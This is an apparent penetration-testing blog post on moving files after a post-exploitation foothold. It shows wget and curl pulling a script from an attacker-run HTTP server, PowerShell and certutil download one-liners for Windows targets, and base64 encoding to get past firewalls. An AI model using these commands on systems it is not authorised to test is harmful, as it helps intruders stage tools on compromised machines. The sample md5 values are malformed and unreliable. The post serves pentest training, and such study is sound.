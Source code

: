 ```yaml
---
layout: single
title:  "File Transfer - Post Exploitation"
author_profile: true
toc: true
toc_label: "Table of Contents"
toc_icon: "fas fa-book-open"
toc_sticky: true
future: true
header:
    image: https://images.unsplash.com/photo-1512317049220-d3c6fcaf6681?q=80&w=2669&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
    caption: "Photo by [**Ilya Pavlov**](https://unsplash.com/@ilyapavlov) on [**Unsplash**](https://unsplash.com/photos/a-close-up-of-a-computer-screen-with-a-menu-hXrPSgGFpqQ)"
    teaser: https://images.unsplash.com/photo-1512317049220-d3c6fcaf6681?q=80&w=2669&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
---
```


File transfer is an essential step after we have successfully exploited our target. To transfer files from our target machine to our own system or to upload enumeration scripts to the target, file transfer is inevitable.

# Python HTTP Server
The Python HTTP server is always a go-to method for file transfer.
1. Navigate to the specific directory which contains our file to transfer. Take note that whichever directory we ran the command from will become the root directory in the HTTP server.
2. Run the following command below.<br><br>
For python2:
```
python -m SimpleHTTPServer 9999
```
For python3:
```
python3 -m http.server 9999
```
3. On the remote host which we have code execution on:
```
$ wget http://10.133.133.33:8000/bobby.sh
```
IP 10.133.133.33 belongs to the host machine running the python server on port 8000.<br><br>
If the remote machine does not have `wget`, use `cURL`:
```
curl http://10.133.133.33:8000/bobby.sh -o bobby.sh
```
> -o flag specifies the output file name.<br><br>
`wget` and `cURL` are usually available in Linux machines.

# Apache
In the event when Python is not available in the machine where the source file is located, we can use Apache instead.
1. Move the file which we want to transfer to the `/var/www/html` directory:
```
mv bobby.sh /var/www/html/
```
2. Start the Apache2 service:
```
service apache2 start
```
3. From our target machine, if we have a graphical user interface (GUI), we can fetch our files by using the web browser and visiting:
```
10.133.133.33/bobby.sh
```
For Command Line Interface (CLI), simply use `wget` or `cURL` as discussed above.

# Windows File Transfer
On a Windows OS, the target machine might not have `wget` or `cURL` available. The methods below are suitable for target machines running in Windows.<br><br>
Note that HTTP server has already been set up at source file location. 
## Powershell
We can use a Powershell one-liner to download a file from our HTTP server:
```
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')
```
> Use single quotes for URL and output file.

## Certutil.exe
Certutil.exe is a command-line program that is installed as part of Certificate Services. It is used to display certification authority (CA) configuration information, configure Certificate Services and etc. 

However, it can be exploited for other purposes:
```
certutil -urlcache -split -f "http://ip-addr:port/file" [output-file]
```

# Evading Firewall Protections
There might be cases when we are unable to download a file from our host machine at the target due to firewall restrictions.

However, a simple trick is to base64 encode the file into `base64` format and pasting the base64 string on the remote server to decode it.

For example, to transfer a binary file `secret`, we can base64 encode it:
```
$ base64 secret -w 0
sdofeimomOIFFIEOFOAAAAAIAREQQABAAAA...
```
Next, we will copy this base64 string, go to our remote host and `base64 -d` to decode it while piping the output into a file:
```
$ echo sdofeimomOIFFIEOFOAAAAAIAREQQABAAAA... | base64 -d > secret
```

# File Validation
We can run the `file` command to validate the format of a file:
```
$ file secret
secret: ELF 32-bit LSB executable, x86-32, version 1 (SYSV), statically linked, no section header
```
To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. On our machine, we can run md5sum on it:
```
$ md5sum secret
3434oifoemco3r8834811adf23fcj0la secret
```
Next, we can go to the remote machine to run the same command on the file we have transferred:
```
$ md5sum secret
3434oifoemco3r8834811adf23fcj0la secret
```
With both files having the same md5 hash means that file transfer has been completed successfully.